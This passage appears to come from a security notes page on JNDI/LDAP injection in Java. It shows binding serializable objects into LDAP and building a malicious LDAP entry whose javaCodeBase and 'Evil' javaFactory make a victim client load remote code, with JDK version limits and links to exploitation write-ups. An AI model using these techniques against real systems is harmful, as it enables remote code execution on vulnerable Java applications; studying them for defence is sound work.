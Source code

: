 ```java
```

#### Store and request Serializable objects


> [!NOTE] restrictions
> The class of object in LDAP serializable entry must exist in client's class path.
> Exploitation by serializable entry only take effect along with client's serialization vulnerability.


How to bind a serializable object into LDAP server is shown as below. Actually, only `javaClassName` attribute is mandatory.
```java
public  class Flower implements Serializable {
...
}

BasicAttributes attributes = new BasicAttributes();  
attributes.put("javaClassName", Flower.class.getName());  
attributes.put("javaSerializedData", bytes);  
attributes.put("objectClass", "javaSerializedObject");

try {  
    ctx.bind("dc=example,dc=com", f, attributes);  
} catch (NameAlreadyBoundException e) {  
    System.out.println("Flower already exists, rebind...");  
    ctx.rebind("dc=example,dc=com", f, attributes);  
}
```

Request a serializable object:
```java
Object f2 = ctx.lookup("dc=example,dc=com");  
System.out.println(f2);
```

If the target class exists in client's class path, then the serialization process starts.

#### Referenceable objects, remote classloading via codebase

> [!NOTE] Restrictions
> The remote classloading functionality is only included in Oracle JDK. In OpenJDK, you will find there is even no source code about this functionality.
> After JDK8u191, JDK will check `trustURLCodebase` before requesting from codebase.
> The resolving codebase functionality is deprecated in JDK9 and deleted in JDK11.
> *(The code in this section are written with JDK7u21)*

Build a Referencable entry(combine with next section).
```java
Entry entry = new Entry(baseDN);  
entry.addAttribute("javaClassName", "xxx");  
entry.addAttribute("javaCodeBase", "http://127.0.0.1:8888/");  
entry.addAttribute("objectClass", "javaNamingReference");  
entry.addAttribute("javaFactory", Evil.class.getName());  
  
result.sendSearchEntry(entry);  
result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
```


[^1]: [探索高版本 JDK 下 JNDI 漏洞的利用方法 - 跳跳糖](https://tttang.com/archive/1405/#toc_0x02-xxe-rce)
[^2]: [半自动化挖掘request实现多种中间件回显 | 回忆飘如雪](https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/)
[^3]: [Java反序列化回显学习之Tomcat通用回显 - SecPulse.COM | 安全脉搏](https://www.secpulse.com/archives/200930.html)
